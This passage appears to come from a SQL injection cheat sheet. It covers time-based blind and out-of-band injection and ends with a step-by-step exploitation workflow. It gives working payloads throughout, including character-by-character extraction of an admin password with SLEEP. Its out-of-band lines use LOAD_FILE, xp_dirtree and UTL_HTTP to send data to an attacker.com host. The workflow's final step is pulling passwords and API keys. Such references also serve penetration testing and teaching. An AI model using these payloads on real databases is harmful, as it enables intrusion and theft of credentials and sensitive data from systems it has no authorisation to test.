 #### Time-based Blind SQLi
Sends SQL queries that cause the database to delay its response based on whether a condition is true. The attacker observes these time delays to infer information.  

**Detection Payloads**:
*   `' AND SLEEP(5) -- ` (MySQL/PostgreSQL: Introduce a 5-second delay)
*   `' AND IF(1=1,SLEEP(5),0) -- ` (MySQL: If condition is true, sleep for 5 seconds)
*   `' WAITFOR DELAY '0:0:5' -- ` (MSSQL: Wait for 5 seconds)
*   `' pg_sleep(5) -- ` (PostgreSQL: Wait for 5 seconds)
*   If a 5-second delay is observed, time-based blind SQLi is likely present.  

**Exploitation Payloads (character-by-character extraction)**:
*   `' AND IF(SUBSTRING(VERSION(),1,1)='5',SLEEP(5),0) -- ` (MySQL: If the first char of version is '5', delay by 5 seconds)
*   `' AND IF(SUBSTRING((SELECT password FROM users WHERE username='admin' LIMIT 1),1,1)='a',SLEEP(5),0) -- ` (MySQL: If first char of admin's password is 'a', delay)
*   This is extremely slow and almost always requires automation.

### Out-of-band SQLi
The database sends data to an external server controlled by the attacker. This type is less common and relies on specific database features being enabled (e.g., `LOAD_FILE` in MySQL, `UTL_HTTP` in Oracle, or DNS lookup capabilities).  

**Detection/Exploitation Payloads**:
*   **MySQL**: `LOAD_FILE(CONCAT('\\\\', (SELECT VERSION()), '.attacker.com\\share'))` (Forces a DNS lookup to attacker's server, leaking version in the DNS query).
*   **MSSQL**: `EXEC master..xp_dirtree '\\attacker.com\share'` or using `xp_cmdshell` for DNS exfiltration.
*   **Oracle**: `SELECT UTL_HTTP.REQUEST('http://attacker.com/data.txt') FROM DUAL;`

## Exploitation Workflow (General)

1.  **Identify Injection Point**: Find a parameter (URL, POST body, header, cookie) susceptible to SQLi.
2.  **Determine Injection Type**: Error-based, Union-based, Boolean-based, Time-based.
3.  **Fingerprint Database**: Identify the database management system (DBMS) (MySQL, PostgreSQL, MSSQL, Oracle) and its version. This dictates specific syntax and features you can use.
    *   `@@version` (MySQL, MSSQL)
    *   `version()` (PostgreSQL)
    *   `V$VERSION` (Oracle)
4.  **Enumerate Schema**:
    *   List all available databases.
    *   List tables within a selected database.
    *   List columns within a selected table.
    *   `information_schema` (MySQL/PostgreSQL), `sys.tables`/`sys.columns` (MSSQL), `ALL_TABLES`/`ALL_TAB_COLUMNS` (Oracle) are critical for this.
5.  **Extract Data**: Retrieve usernames, passwords, API keys, or any other sensitive data from the identified tables and columns.

## Advanced SQLi Techniques
